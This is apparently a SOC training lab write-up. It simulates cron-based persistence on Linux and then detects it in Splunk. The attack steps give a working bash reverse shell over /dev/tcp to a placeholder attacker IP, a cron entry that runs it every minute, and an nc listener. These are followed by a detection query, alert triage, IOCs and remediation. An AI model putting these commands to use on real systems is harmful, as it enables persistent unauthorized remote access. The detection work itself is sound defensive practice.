

Linux Persistence Detection via Cron Jobs
🧠 Objective

This lab demonstrates detection of malicious persistence using cron jobs on a Linux system, along with SIEM-based detection using Splunk Enterprise.

The goal is to simulate real attacker behavior and analyze logs like a SOC analyst.

🏗️ Lab Architecture
Component	Role
Kali Linux	Attacker
Ubuntu	Victim
Splunk Enterprise	SIEM
Splunk Forwarder	Log collection
⚔️ Attack Scenario Overview

An attacker establishes persistence on a Linux system by:

Creating a malicious script
Scheduling it using cron
Executing it repeatedly
Establishing a reverse shell connection
🔁 Attack Flow
Persistence (cron job)
        ↓
Execution (/tmp/reverse.sh)
        ↓
Outbound connection
        ↓
Reverse shell (attacker access)
🧪 Attack Simulation
Step 1 — Create Malicious Script
nano /tmp/reverse.sh
Script Content:
#!/bin/bash
bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1
🧠 Explanation of the Code
bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1
Part	Meaning
bash -i	Interactive shell
>&	Redirect output
/dev/tcp/IP/PORT	Create TCP connection
0>&1	Redirect input/output

👉 This makes the victim machine connect back to attacker (reverse shell)

Step 2 — Make Script Executable
chmod +x /tmp/reverse.sh
Step 3 — Create Persistence via Cron
crontab -e

Add:

* * * * * /tmp/reverse.sh
🧠 Cron Syntax Explained
* * * * * /tmp/reverse.sh
Field	Meaning
1st *	Minute
2nd *	Hour
3rd *	Day
4th *	Month
5th *	Weekday

👉 * * * * * = Runs every minute

👉 This ensures:

Continuous execution
Persistent attacker access
Step 4 — Start Listener (Attacker)
nc -lvnp 4444
Evidence Screenshot — Reverse Shell Established

📌 Screenshot 1: Reverse shell connection from Ubuntu to Kali
📡 Log Generation

Cron execution generates logs in:

/var/log/syslog

Example log:

CRON[3178]: (root) CMD (/tmp/reverse.sh)
📸 Screenshot — Syslog Verification

📌 Screenshot 2: Syslog showing repeated execution of reverse.sh
📊 Detection in Splunk

Logs were forwarded using Splunk Forwarder and analyzed in Splunk.

🔍 SPL Query
index=main sourcetype=linux:syslog "CRON"
| search "CMD"
| regex _raw="(/tmp|reverse.sh|dev/tcp|bash)"
| table _time host _raw
📸 Screenshot — Splunk Detection

📌 Screenshot 3: Splunk logs showing cron execution of /tmp/reverse.sh
🚨 Alert Analysis (True Positive)
⏱️ Time of Activity:
<Add timestamp>
🖥️ Host:

ubuntu11

👤 User:

root

⚙️ Process:

/tmp/reverse.sh

🧠 Reason for Classification as True Positive:
Execution from /tmp directory (non-standard)
Script name not associated with system processes
Repeated execution every minute
Running with root privileges
Matches persistence technique behavior
🚨 Reason for Escalation:
Indicates persistent unauthorized access
Potential command & control communication
High risk of full system compromise
🔎 Indicators of Compromise (IOCs):
File: /tmp/reverse.sh
Cron entry: * * * * *
Reverse shell behavior
Repeated cron execution logs
Outbound connection to attacker IP
🛠️ Recommended Remediation:

Remove cron job:

crontab -r

Delete malicious script:

rm /tmp/reverse.sh
Kill active sessions
Block attacker IP
Review system logs for lateral movement
Implement monitoring for cron changes
